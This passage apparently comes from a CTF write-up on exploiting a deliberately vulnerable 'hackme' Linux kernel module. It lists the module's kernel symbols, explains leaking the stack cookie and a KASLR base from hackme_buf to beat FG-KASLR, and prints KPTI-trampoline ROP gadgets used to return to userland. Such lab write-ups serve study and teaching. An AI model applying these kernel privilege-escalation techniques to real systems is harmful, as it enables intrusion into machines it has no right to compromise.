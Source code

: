 ```sh
>cat /proc/kallsyms | grep 'hackme'

ffffffffc033e180 t hackme_release	[hackme]
ffffffffc033e000 t hackme_write	[hackme]
ffffffffc033e1a0 t hackme_open	[hackme]
ffffffffc033e0c0 t hackme_read	[hackme]
ffffffffc0340000 d hackme_misc	[hackme]
ffffffffc033e18d t hackme_exit	[hackme]
ffffffffc033f0a0 r hackme_fops	[hackme]
ffffffffc033f076 r .LC1	[hackme]
ffffffffc033f1a0 r _note_7	[hackme]
ffffffffc0340080 d __this_module	[hackme]
ffffffffc033e18d t cleanup_module	[hackme]
ffffffffc0340440 b hackme_buf	[hackme]
```

just like userland pwn we need to find the stack cookie and get a kaslr leak if we examine the hackme_buf carefully the hackme_buf[38] is a address which is not affected by FG-KASLR and is at a constant offset, so leaking it will defeat kaslr.

ROP gadgets used:
```assembly
KPTI TRAMPOLINE:
	mov    rdi,rsp
	mov    rsp,QWORD PTR gs:0x6004
	push   QWORD PTR [rdi+0x30]
	push   QWORD PTR [rdi+0x28]
	push   QWORD PTR [rdi+0x20]
	push   QWORD PTR [rdi+0x18]
	push   QWORD PTR [rdi+0x10]
	push   QWORD PTR [rdi]
	push   rax
	xchg   ax,ax
	mov    rdi,cr3
	jmp    0xffffffff85200f7f
	mov    rax,rdi
	and    rdi,0x7ff
	bt     QWORD PTR gs:0x2ae56,rdi
	jae    0xffffffff85200f70
	btr    QWORD PTR gs:0x2ae56,rdi
	mov    rdi,rax
	jmp    0xffffffff85200f78
	mov    rdi,rax
	bts    rdi,0x3f
	or     rdi,0x800
	or     rdi,0x1000
	mov    cr3,rdi
	pop    rax
	pop    rdi
	swapgs 
	nop    DWORD PTR [rax]
	jmp    0xffffffff85200fc0
	nop
	pop    r15
	pop    r14
	pop    r13
	pop    r12
	pop    rbp
	pop    rbx
	pop    r11
	pop    r10
	pop    r9
	pop    r8
	pop    rax
```